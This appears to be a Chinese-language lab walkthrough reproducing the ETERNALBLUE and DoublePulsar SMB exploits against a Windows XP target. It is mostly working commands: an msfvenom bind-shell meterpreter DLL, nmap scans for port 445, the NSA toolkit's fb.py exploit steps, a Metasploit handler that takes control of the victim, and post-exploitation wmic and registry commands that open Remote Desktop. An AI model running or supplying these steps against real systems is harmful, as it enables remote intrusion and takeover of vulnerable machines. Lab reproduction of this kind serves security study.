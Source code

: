 ### **漏洞复现**

 1. 环境搭建<br>
| 主机类型 | OS | IP
|----|---|---
| 攻击机1 | win2003| 10.10.10.130
| 攻击机2 | kali linux 2.0| 10.10.10.128
| 靶机 | winXP x86| 10.10.10.139
 2. 工具准备
 
  - 解压NSA工具包中的windows文件夹到攻击机1的C:\目录下（只要不是中文目录皆可）;
  - 在攻击机1安装:
   - [python-2.6.6.msi][1]
   - [pywin32-221.win32-py2.6.exe][2]
  - 在攻击机2先生成用于回连的dll
  `msfvenom -p windows/meterpreter/bind_tcp LPORT=5555 -f dll > x86bind.dll`

3.扫描开启445端口的活跃主机并探测操作系统
`nmap -Pn -p445 -O 10.10.10.0/24`
`nmap -Pn -p445 -O -iL ip.txt`

4.攻击机1开始利用ETERNALBLUE攻击
`python fb.py
use Eternalblue
...`

5.利用Doublepulsar注入dll
 `use Doublepulsar`
 
6.kali攻击机利用msf回连控制主机5555端口
`use exploit/multi/handler`
`set payload windows/meterpreter/bind_tcp`
`set LPORT 5555`
`set RHOST XXX.XXX.XXX.XXX`
`exploit`
 
### **后渗透攻击**
 
1. 开3389端口<br>
（1）`wmic /namespace:\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS != “”) call 
setallowtsconnections 1`<br>
（2）`wmic /namespace:\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName =’RDP-Tcp’) call 
setuserauthenticationrequired 1`<br>
（3）`reg add “HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fSingleSessionPerUser /t REG_DWORD /d 0 /f`<br>

 	针对win XP及win2003只需要第3条命令<br>
 	针对win 7需要第1，2条命令<br>
	 针对win 2012需要3条命令<br>


  [1]: https://www.python.org/download/releases/2.6.6/
  [2]: https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/pywin32-221.win32-py2.6.exe/download
  [3]: https://github.com/countercept/doublepulsar-detection-script
  [4]: https://svn.nmap.org/nmap/scripts/smb-double-pulsar-backdoor.nse